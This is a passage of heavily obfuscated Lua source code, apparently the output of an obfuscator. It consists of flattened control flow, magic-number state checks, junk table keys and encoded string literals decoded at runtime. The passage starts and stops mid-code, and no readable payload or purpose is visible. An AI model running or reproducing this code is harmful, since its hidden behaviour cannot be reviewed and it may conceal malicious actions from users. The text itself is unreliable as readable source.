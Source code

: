 end end  end;if(c*12==1476)then do if((b==87.3841836214374)and(d==261.06317780621885)and(a[988]==false)and(a[686]=='CL0NC3PHuV')and(a[593]=='SABkfyeWmB'))and(c+61==184)then c=921;b=37.30431859455513;d=251.75599564648272;C=function(a,...)return x(a,F,...)end;a[686]='sC6uZ8I60E'a[593]='eyrZesdvAI'a[988]=false end end  end;if(c+132==396)and((b==138.1361216408212)and(d==188.49816546801648)and(a[988]==false)and(a[686]=='cA06rInn5W')and(a[593]=='GJRDNBMjx6'))then b=93.42096990253745;d=561.6447147509166;c=392 end until(false)end;F=(-41427+(function()local a,b=0,1(function(a,b)b(a(b,a),b(a and a,a))end)(function(c,d)do if a>137 then return d end end ;a=a+1;b=(b-959)%42486;do if(b%1078)<=539 then b=(b-801)%134;return c(c(c and c,c and c),c(c and c,d)and d(c,d))else return c(d(d,c),d(c,c))end end ;return c(c(d,c),d(c,d))end,function(c,d)if a>118 then return c end;a=a+1;b=(b-159)%24408;if(b%728)>364 then return d else return c end;return d end)return b end)())H=(-25135+(function()local a,b=0,1(function(a,b,c)b(a(a,b,b)and c(c,c,a),a(c,c and c,b)and a(a,a,a),a(a,c,c))end)(function(c,d,e)if a>293 then return e end;a=a+1;b=(b*594)%46831;do if(b%1070)>535 then return e else return c end end ;return d end,function(c,d,e)do if a>125 then return e end end ;a=a+1;b=(b*345)%41664;do if(b%234)>117 then return d else return d end end ;return c end,function(c,d,e)if a>269 then return c end;a=a+1;b=(b*202)%14823;if(b%890)>445 then b=(b+159)%819;return d else return d end;return c end)return b end)())local x=f(d(1))a["_xLi62IoOL8z765OL3"]=function(b,c)local d=d()local e=x;do for h=x,#b do local b=y(f(b,h),f(c,e))d=g(((a[3031126])),d,o(u,b)or b)e=e+x;e=(e>#c and x)or e end end ;return d end;local g=a[D({41,58,58,51,90,88,7,55,22,28,98,12,117,64,111,35,38,125})]local o=function(a,b)do if(b>=h)then return t(a,w(1,b),814420)else return t(a,w(1,-b),9006731)end end  end;return(function(w)if false then do while w do w=11.670064531979985 end end  else local x,B,C;x=(x or 0)for a,a in m(w)do x=(x or 0)+1 end;do if(x<2)then return("Jltyo3oQ1OJ")end end ;local m=341;local x=4707;do while(m<x)do x=m-9414;do while(m>(x-10))do x=(m+2441)*2;B=w[2]end end ;if(682-m)<(x+388)then m=((x+341)*2)C=w[1]end end end ;a={}do local b=b()[G("\5\39\2\55\9\30\47\44\56\50\54\19")]do if false then while a do b=(function()return 7364.045253646792 end)end else do if(b~=nil)then a[G("\41\58\15\34\21\38\33\7\48\98\109\64\115\66\35\91")]=b({[-227.9374979122778]=-55.842975439989885;[-110.26123439174984]=-15.782497379832876;[-61.00026971834049]=-13.908972849188387;[144.6539622036721]=79.56658024137636;[-220.16727166340445]=17.90384021172065;[74.50874139138432]=67.55611660934306},{[G("\41\29\2\53\31\30\60\49\55\55")]=function(b,b)return(function()do while true do a=a or nil;do if(a~=nil and a[1]~=nil)then break else a["\79\51\109\108\72\87\56\103\75\73\52\119\48\108\97\72\109\85\89\71"]="\100\54\71\90\107\115\102\118\112\114\69\55\117\77\97\117\90\69\72\119\52\113\76\110"end end  end end ;return"\114\102\122\114\74\50\67\85\88\97\113\108\102\48\90\87\72\113\78\66\103\80\88\67\120\87\81\115\102\109"end)()end})a[1]=a[k]end end ;do do local b=262.0040545714007;local c={}local d=4.020044575751844;local e=329;do for f in(function()return 75 end)do do if(e*60==36180)then if((d==554.5428295955035)and(b==314.8358043258945)and(c[230]==false)and(c[968]=='kw7obrNRBP')and(c[669]=='m22PkJB5MH'))and(e+301==904)then e=350;c[968]='JdeuEMh9DD'c[669]='5Ku2etU576'a[y(7123913,129)]=A("\79\6\2\2\54\32\43\108\97\50",K)c[230]=false;d=166.88072910173096;b=235.07866344301152 end end end ;do if(e*28==7896)then do if(e+141==423)and((d==127.41511818593374)and(b==719.6276959758077)and(c[230]==false)and(c[968]=='MJKu2qf2XB')and(c[669]=='5OcHDLUfxT'))then c[968]='Lcz6Wt9e3G'c[230]=false;b=498.38194317948177;c[669]='yCwXv30aAT'a[y(3280945,129)]=A("\23\115",K)a[y(3178916,129)]=A("\24\13\56\22\25\57\124\29\44\99",K)e=56;d=577.6736879796166 end end  end end ;while(e+198==594)and((d==145.51635295520992)and(b==2.535220894568016)and(c[230]==false)and(c[968]=='42cq5LyOlO')and(c[669]=='1NNOGqa5wc'))do c[230]=false;c[669]='hxVpOJc8jE'e=694;c[968]='kp4ka76tA4'd=199.99519691784622;b=105.00196026465072;a[y(9796561,129)]=A("\25\4\28\42\4\57\121\27\41\0",K)a[y(7276097,129)]=A("\14\58\57\34\20\92\23\1\35\41",K)a[y(3112530,129)]=A("\61",K)a[y(7596465,129)]=A("\48\15\7\52\30\6\23\31\21\60",K)break end;do while(e+300==901)and((d==413.3373709091158)and(b==0.246806371710925)and(c[230]==false)and(c[968]=='GnXFukuseE')and(c[669]=='fxYw9buD6O'))do c[230]=false;e=922;c[669]='EgT7WVgOMN'b=293.772372516381;a[y(1741927,129)]=A("\14\14\70\34\95\83\119\49\97\96",K)a[y(5984215,129)]=A("\41\29\2\53\31\30\60\49\55\55",K)a[y(4866057,129)]=A("\14\56\70\98\20\90\125\1\53\8",K)a[y(3395147,129)]=A("\14\56\70\98\20\90\125\1\53\8",K)a[y(4381,129)]=A("\52\45\4\53\2\3\42\61\121\31\56\16\55\5\57\13\30\33\42",K)c[968]='UKoWlZaRr0'd=143.3860094888509;break end end ;do if(e+357==1071)and((d==337.721208316274)and(b==207.25186246082728)and(c[230]==false)and(c[968]=='vDjMBKgNAE')and(c[669]=='QRLXLPZgvs'))then c[669]='fxYw9buD6O'c[230]=false;e=601;c[968]='GnXFukuseE'a[y(5503807,129)]=A("\35\6\53\34\37\8\9\49\55\40",K)a[y(3326665,129)]=A("\75\124",K)a[y(539352,129)]=A("\24\50\25\27\54\27\15\27\21\100",K)b=0.246806371710925;d=413.3373709091158 end end ;do if(e*69==47886)then do if((d==199.99519691784622)and(b==105.00196026465072)and(c[230]==false)and(c[968]=='kp4ka76tA4')and(c[669]=='hxVpOJc8jE'))and(e+347==1041)then e=995;c[230]=false;a[y(3779253,129)]=A("\37",K)b=309.16168709711;c[968]='UaX3sU4qI1'd=16.276975442642396;c[669]='BsCj5hZpGV'end end  end end ;do while((d==166.88072910173096)and(b==235.07866344301152)and(c[230]==false)and(c[968]=='JdeuEMh9DD')and(c[669]=='5Ku2etU576'))and(e+175==525)do
